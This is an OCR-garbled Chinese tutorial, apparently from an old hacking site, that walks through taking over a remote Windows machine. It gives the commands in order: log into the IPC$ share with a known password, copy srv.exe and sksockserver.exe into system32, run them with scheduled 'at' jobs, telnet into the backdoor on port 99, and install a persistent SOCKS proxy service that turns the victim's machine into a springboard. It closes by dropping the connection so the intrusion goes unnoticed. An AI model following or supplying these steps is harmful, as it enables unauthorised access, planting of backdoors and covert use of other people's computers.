 可以输入net? use? \XXX.XXX.XXX.XXX$? "密码"? /user:用户名"? ，如果成功的话将出现“命令

完成”。?
(注? ：NET? USE? \ip$? 密码? /user:用户名字)?
2：将将SRV.EXE和sksockserver.exe拷到主机的SYSTEM32目录里。?
命令为：? C:\srv.exe? <a href="file://XXX.XXX.XXX.XXX/admin$/system32">\\XXX.XXX.XXX.XXX\admin$\system32</a>?
C:\sksockserver.exe? <a href="file://XXX.XXX.XXX.XXX/admin$/system32">\\XXX.XXX.XXX.XXX\admin$\system32</a>?
成功拷贝的话，将会出现：“已复制??????? 1个文件”的提示。?
这个过程大概需要几分钟，等等吧：）?
3：输入? net? time? <a href="file://XXX.XXX.XXX.XXX/">\\XXX.XXX.XXX.XXX</a>?
这样我们就得到了主机的本地时间。?
4：输入? at? <a href="file://XXX.XXX.XXX.XXX/">\\XXX.XXX.XXX.XXX</a>? 时间? 要运行的程式? (记得时间是用主机的本地时间，一定要

输入比本地时间迟几分钟！！！这样过几分钟后该程式将自动执行? ，还有? ，时间是按照国际时

间的)? ，? 出现添加了一项作业，其作业ID-1，就表示已经增加了作业? ！！?
如果要取消作业? ，? 输入? at? \XXX.XXX.XXX.XXX? ID号码? /del?
5：过几分钟? ,? 输入? at? <a href="file://XXX.XXX.XXX.XXX/">\\XXX.XXX.XXX.XXX</a>? 查看刚才要执行任务的情况? ，可以看到如下内

容：?
状态? ID????? 日期????????????? 时间??????? 命令行?
－－－－－－－－－－－－－－－－－－－－－－－－－－－－－－－－－－－?
这就表示任务已经执行了? ！！?
6：现在可以输入? telnet? XXX.XXX.XXX.XXX? 99? (? 刚才执行的srv.exe就是用来打开99端口的)

?！！很快的，我们将可以进入目标的电脑系统了：）?
这是显示为：?
C:\WINNT\system32&gt;?
7：这是键入：C:\WINNT\system32&gt;sksockserver? －install?
注意：现在不会显示你已经输入的命令文字? ，? 放心? ，这是正常的? 。然后按ENTER！?
8：现在来指定打开哪个端口，你可以用? 1199，2001等端口，也可以按下面输入：?
C:\WINNT\system32&gt;?
C:\WINNT\system32&gt;sksockserver.exe? －config? port? 1127?
这时屏幕显示：?
The? Port? valve? set? to? 1127?
注:可以跳过以上步骤，默认端口是1813!!!?
9：这时就输入：?
C:\WINNT\system32&gt;sksockserver? -config? starttyte? 2?
屏幕显示：?
The? New? StartType? have? set? to? 2? --Auto?
这样就不怕目标重新启动系统后你的跳板就停止运行? ：）?
10：依照下面输入，你就拥有了自己的跳板了：）?
命令为：?
C:\WINNT\system32&gt;?
C:\WINNT\system32&gt;net? start? skserver?
屏幕显示：?
The? Snake? SockProxy? Service? service? is? starting.?
The? Snake? SockProxy? Service? service? was? started? successfully.?
11：现在要离开这台主机了，连接太久容易被发现嘛：）?
输入：?
net? use? <a href="file://XXX.XXX.XXX.XXX/">\\XXX.XXX.XXX.XXX</a>? /del?
屏幕显示：?
<a href="file://XXX.XXX.XXX.XXX/">\\XXX.XXX.XXX.XXX</a>? 已经删除。?
你也可以检查一下，输入：?
net? use?
屏幕显示：?
会纪录新的网络连接。?
清单是空的?
（如果不是这样就说明，还连着！）?
12：打开，snake的代理跳板GUI版，就会看到属于你自己的跳板正在替你疯狂的冲浪：）?
PS：本篇文章是本人整理tekwei的《DIY? socks5》而得，如果你还不懂可以到“tekwei的主页”下

